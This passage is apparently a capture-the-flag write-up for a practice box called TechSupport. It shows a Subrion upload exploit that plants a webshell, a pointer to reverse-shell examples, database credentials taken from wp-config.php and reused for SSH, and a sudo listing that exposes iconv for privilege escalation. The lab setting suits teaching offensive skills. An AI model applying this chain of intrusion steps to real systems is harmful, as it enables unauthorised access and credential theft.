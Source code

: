 ```bash
[+] Upload Success... Webshell path: http://techsupport.thm/subrion/panel/uploads/ipmrjrdahkbtipn.phar 

$ 

```

The above exploit gives us a command shell. Let's pivot to a full featured reverse shell by running a Python3 reverse shell command.
Here are some good examples => https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python

With this shell, we can get a foothold on the machine.

# Foothold

*wp-config.php*

```php
/** The name of the database for WordPress */
define( 'DB_NAME', 'wpdb' );

/** MySQL database username */
define( 'DB_USER', 'support' );

/** MySQL database password */
define( 'DB_PASSWORD', 'CENSORED' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );


```

Trying to do an SSH login to the `scamsite` user(which we found in the home folder) using the above password?

Success!! We now have a proper login shell.

Let's try for privesc

# Privesc

```bash
scamsite@TechSupport:~$ sudo -l
Matching Defaults entries for scamsite on TechSupport:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User scamsite may run the following commands on TechSupport:
    (ALL) NOPASSWD: /usr/bin/iconv
```

